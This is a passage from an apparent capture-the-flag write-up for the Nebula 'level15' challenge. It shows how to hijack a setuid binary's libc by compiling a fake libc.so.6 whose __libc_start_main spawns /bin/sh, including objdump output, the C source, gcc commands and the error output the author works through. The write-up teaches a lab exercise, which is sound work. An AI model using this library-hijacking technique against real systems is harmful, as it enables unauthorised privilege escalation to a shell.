 {% highlight console %}
level15@nebula:/home/flag15$ objdump -R flag15

flag15:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE
08049ff0 R_386_GLOB_DAT    __gmon_start__
0804a000 R_386_JUMP_SLOT   puts
0804a004 R_386_JUMP_SLOT   __gmon_start__
0804a008 R_386_JUMP_SLOT   __libc_start_main
{% endhighlight %}

So we've got a choice here between `__libc_start_main` or `__gmon_start`. As I am more comfortable with `__libc_start_main` I'm going to go with this.

So let us begin with the code for our library by looking up the [function declaration](http://refspecs.linuxbase.org/LSB_3.1.1/LSB-Core-generic/LSB-Core-generic/baselib---libc-start-main-.html)

{% highlight C %}
#include <linux/unistd.h>

int __libc_start_main(int (*main) (int, char **, char **), 
int argc, char *argv, void (*init) (void), void (*fini) 
(void), void (*rtld_fini) (void), void *stack_end) {
  system("/bin/sh");
}
{% endhighlight %}

In theory we should get a shell now

{% highlight console %}
level15@nebula:/var/tmp/flag15$ gcc -shared -fPIC -o libc.so.6 mylibc.c
level15@nebula:/var/tmp/flag15$ ~flag15/flag15
/home/flag15/flag15: /var/tmp/flag15/libc.so.6: no version information available (required by /home/flag15/flag15)
/home/flag15/flag15: /var/tmp/flag15/libc.so.6: no version information available (required by /var/tmp/flag15/libc.so.6)
/home/flag15/flag15: /var/tmp/flag15/libc.so.6: no version information available (required by /var/tmp/flag15/libc.so.6)
/home/flag15/flag15: relocation error: /var/tmp/flag15/libc.so.6: symbol __cxa_finalize, version GLIBC_2.1.3 not defined in file libc.so.6 with link time reference
{% endhighlight %}

Nuts, we have a symbol missing, namely `__cxa_finalize`. Let's add it an try again
{% highlight C %}
#include <linux/unistd.h>

void __cxa_finalize (void *d) {
    return;
}

int __libc_start_main(int (*main) (int, char **, char **), 
int argc, char *argv, void (*init) (void), void (*fini) 
(void), void (*rtld_fini) (void), void *stack_end) {
    system("/bin/sh");
}
{% endhighlight %}
